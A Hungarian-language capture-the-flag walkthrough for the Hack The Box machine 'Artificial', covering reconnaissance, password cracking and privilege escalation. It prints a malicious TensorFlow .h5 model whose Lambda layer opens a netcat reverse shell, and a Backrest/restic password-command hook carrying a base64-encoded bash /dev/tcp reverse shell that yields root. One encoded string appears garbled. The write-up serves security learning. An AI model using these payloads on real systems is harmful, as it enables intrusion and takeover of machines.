 
---
layout: default
title: Artificial [HU]
---


**Platform:** Linux\
**IP:** 10.10.11.74\
**Difficulty:** Easy\
**Author:** NoSec

> 🚨 **Kövess élőben HTB-n — leakek, dropok és mély writeupok**  
> 👉 [t.me/nosecpwn](https://t.me/nosecpwn)  
> _Ne olvasd. Csatlakozz._

---

## Recon

```bash
nmap -sC -sV -T4 10.10.11.74
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 14:07 CEST
Nmap scan report for artificial.htb (10.10.11.74)
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
```

**/etc/hosts szerkesztés:**

```bash
echo "10.10.11.74 artificial.htb" | sudo tee -a /etc/hosts
```

---

## Web Enum

A weboldal login + regisztrációs lehetőséget ad. Sikeres regisztráció után .h5 fájlokat lehet feltölteni.

### Malicious TensorFlow modell generálása (tenserflow-cpu==2.13.1 a követelmény)

```python
# model_gen.py
import tensorflow as tf
import os

def exploit(x):
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.44 4444 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("nosechere.h5")
```

**Docker parancs:**

```bash
sudo docker run -it --rm -v "$PWD":/app -w /app tensorflow/tensorflow:2.13.0 python3 model_gen.py
```

Feltöltés után:

```bash
nc -lvnp 4444
```

---

## SQLite Database Enum

```bash
find / -type f \( -name "*.db" -o -name "*.sqlite3" \) 2>/dev/null
```

Megvan: `/home/app/app/instance/users.db`

```bash
sqlite3 /home/app/app/instance/users.db
.tables
.schema user
SELECT * FROM user;
```

### Hash crack (raw-md5):

```bash
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Talált jelszavak:

```
mattp005
marwinn
```

---

## PrivEsc (Backup leak)

A `redteam-launcher` segíségével átnézve a backupokat(https://github.com/No4Sec/redteam-launcher):

```
/var/backups/backrest_backup.tar.gz
```

**Letöltés HTTP szerveren keresztül:**

```bash
cd /var/backups
python3 -m http.server
```

**Kalin:**

```bash
wget http://10.129.70.3:8000/backrest_backup.tar.gz
```

**Kitömörítés:**

```bash
tar -xvf backrest_backup.tar.gz
```

**config.json:**

```json
{
  "auth": {
    "users": [
      {
        "name": "backrest",
        "passwordBcrypt": "$2a$10$..."
      }
    ]
  }
}
```

Base64 decode után:

```bash
cat hash.txt | base64 -d
```

John bcrypt:

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

---

## 🚪 Local RESTIC Web UI (port 9898)

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Feltérépezés után megtalálható a Backrest login felület.

A korábban dumpolt jelszóval belépés után új repo-t adunk hozzá.

**Env variable exploit:**

```bash
RESTIC_PASSWORD_COMMAND=bash -c 'bash -i >& /dev/tcp/10.10.xx.xxx/4444 0>&1'
```

**Fontos:** a `Hook` mezőbe ezt állítsuk be:

```bash
RESTIC_PASSWORD_COMMAND=echo 'YmFzaCAtaSAmJiAvZGVyL3RjcC8xMC4xNi4xMzUvNDQ0NCAwPiYxCg==' | base64 -d | bash
```

**Flag:** `ON_ERROR_IGNORE`

**Miért base64?** A mező nem kezeli rendesen az értelemmel rendelkezo parancsokat, ezért jobb base64-ben beküldeni, majd `-d | bash` dekódolja.

```bash
echo 'bash -i >& /dev/tcp/10.10.xx.xx/4444 0>&1' | base64
```

Majd submit, és shell vissza root joggal:

```bash
nc -lvnp 4444
```

```bash
(root㉿NoSec)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.74] 50526
bash: cannot set terminal process group (28638): Inappropriate ioctl for device
bash: no job control in this shell
root@artificial:/# cd root
cd root
root@artificial:~# ls
ls
root.txt
scripts
root@artificial:~# 
```

---


## Összegzés

Az Artificial egy könnyű, mégis kreatív kihívás, ami több különböző vektort is összefűz:
- Gépi tanulási modellből indított reverse shell
- SQLite adatbázis feltárása és hash törés
- Backup fájlból kiszedett bcrypt jelszó
- RESTIC környezeti változón keresztüli RCE, ami végül root shellhez vezet

Külön érdekesség volt a `.h5` fájl alapú Tensorflow modellben elrejtett shellkód, valamint a RESTIC hook exploit, ami egy igazi hidden gem.

**Tanulság:**
- Soha ne bízz meg a feltöltött fájlokban
- Ne futtass backup szolgáltatást rootként ha nem muszáj
- És mindig nézd át a `.tar.gz` fájlokat – lehet benne meglepetés :)

---

## Root megvan. On to the next one. //

